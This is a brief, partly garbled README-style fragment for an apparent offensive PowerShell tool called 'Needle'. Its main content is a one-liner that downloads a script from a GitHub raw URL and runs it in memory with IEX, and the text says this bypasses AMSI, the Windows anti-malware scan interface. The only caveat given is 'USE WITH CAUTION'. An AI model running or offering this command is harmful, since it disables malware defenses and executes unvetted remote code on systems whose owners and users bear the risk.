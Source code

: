 Greetings
----------

![alt text](<2024-06-26 08_25_55-Select Windows PowerShell.png>)

after inction in session run with : Needle

bypass AMSI with oneliner :  

IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/ELMERIKH/Needle/main/Needle.ps1')

USE WITH CAUTION 
-----------
